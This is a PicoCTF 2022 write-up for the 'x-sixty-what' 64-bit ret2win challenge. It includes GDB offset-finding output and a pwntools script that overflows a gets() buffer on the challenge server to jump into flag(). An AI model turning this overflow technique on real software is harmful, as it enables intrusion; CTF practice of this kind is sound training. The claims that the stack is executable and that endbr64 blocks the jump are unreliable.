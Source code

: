 ```yaml
---
layout: single
title:  "PicoCTF 2022 - x-sixty-what"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
---
```


Another ret2win challenge. Interestingly, this deals with 64-bit binaries instead of 32-bit.

As usual, John Hammond's [walkthrough video](https://www.youtube.com/watch?v=eg0gULifHFI&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=42) was very helpful for this challenge.

## My Solution
Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:
```bash
$ file vuln
>> vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=8ba2226f06946bc75922ba6fb1919e6283162f22, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
From this, we can observe that the file:
- is a 64-bit ELF file,
- is not stripped,
- has no PIE, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
We can see that the provided file has a read buffer size of 64, and has a `flag()` function present. Like most binary exploitation challenges, the vulnerable `gets()` function is used here to retrieve user input. 

It appears that nothing is out of the ordinary here. We just need to note that this is a 64-bit binary, and we need to return to the `flag()` function to get our flag.

Now, let's use GDB to find the function addresses, and to determine the offset to RIP (not EIP, as this is a 64-bit binary).
```bash
$ gdb vuln
>> ...
gef➤ info functions
...
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
...
```
We observe that the address of `flag()` is `0x0000000000401236`.
```bash
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012d1 in vuln ()
```
As expected, we receive a segmentation fault. To determine where our RIP offset is, let's look at the stack.
```bash
0x00007fffffffd658│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapa[...]"    ← $rsp
0x00007fffffffd660│+0x0008: "kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqa[...]"
...
```
Notice that the pattern "jaaaaaaaka..." is found at the top of the stack. If this value was a valid memory address, then it should be popped from the stack and passed to RIP. Therefore, the offset to RIP will also be the offset to RSP, as RSP points to this pattern.
```bash
pattern offset $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```
Thus, we have determined our offset to be 72 bytes. Additionally, we notice something interesting in the debugger. It appeared that the RIP doesn't get clobbered in this case, which is unlike what we've seen in 32-bit binaries.
```bash
$rip   : 0x00000000004012d1  →  <vuln+31> ret
```
Normally, we would've expected to see a bunch of 61s here. The reason for this is due to **canonical addressing** in x64 systems. Simply put, canonical addresses fall within a specific address size range. Addresses outside of this size range would be considered non-canonical, and will never be pushed into RIP. In this case, the maximum address size is 48 bits in length (or, 6 bytes). For us to control RIP, we will need to mask off the 2 most significant bytes from the 8 byte memory address of our `flag()` function.

To check this, let's generate a pattern of 78 bytes in length, and observe if RIP was clobbered.
```bash
gef➤  pattern create 78
[+] Generating a pattern of 78 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa
[+] Saved as '$_gef5'
gef➤  r
Starting program: .../vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
...
$rip   : 0x61616161616a
```
Indeed, our RIP was clobbered with exactly 6 bytes of data.

We can now proceed to solve this challenge. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 49395) # for remote execution

# payload buffer
payload = b'A' * 72 # RIP offset
payload += p64(0x401236) # 0x0000000000401236

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
However, in spite of the correct approach taken, this solution did not work, as I unexpectedly received a segmentation fault. If we refer to the challenge page on PicoCTF, we notice that this disclaimer was provided:
`Reminder: local exploits may not always work the same way remotely due to differences between machines.`

It appeared that entering the exact address of `flag()` does not work on all machines (explanation below!). To solve this challenge, I had to enter the address of a move instruction within the function instead.
`0x000000000040123b <+5>:     mov    rbp,rsp`

Making modifications to the Python script, we can now get the flag.
```python
...
payload = b'A' * 72 # RIP offset
payload += p64(0x40123b)
...
```
```bash
[+] Opening connection to saturn.picoctf.net on port 49395: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Welcome to 64-bit. Give me a string that gets you the flag:'
[*] Switching to interactive mode

picoCTF{b1663r_15_b3773r_3e77a3f1}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 49395
```

## Learning Takeaways
**Why did the program fail to call `flag()` when we loaded the address of flag into the payload?**
Let's disassemble `flag()`.
```bash
gef➤  disas flag
Dump of assembler code for function flag:
0x0000000000401236 <+0>:     endbr64
0x000000000040123a <+4>:     push   rbp
0x000000000040123b <+5>:     mov    rbp,rsp
0x000000000040123e <+8>:     sub    rsp,0x50
...
```
We notice that the function address points to a `endbr64` instruction. After doing some brief research, it seems that this is a form of ROP protection on Intel-based chips. In short, the presence of this instruction prevents attackers (like us) from directly manipulating return addresses of functions on the call stack, thus preventing us from calling `flag()`. 

To bypass this, we made the program jump to an instruction within `flag()` instead. There was some trial and error involved, but it seemed like jumping to the move instruction was the right approach.

Generally, we've learnt that x64 systems behave differently from x32. For instance, 32-bit systems can read off the stack directly, while 64-bit systems refer to registers on the stack, which makes manipulation of the call stack a bit more challenging. There's also the concept of canonical addresses which was mentioned above.

## References
- [John Hammond (YouTube): x64 ret2win - LINUX Buffer Overflow (PicoCTF 2022 #41 'x-sixty-what')](https://www.youtube.com/watch?v=eg0gULifHFI&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=42)
- [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow)
- [Exploiting Calling Conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions)
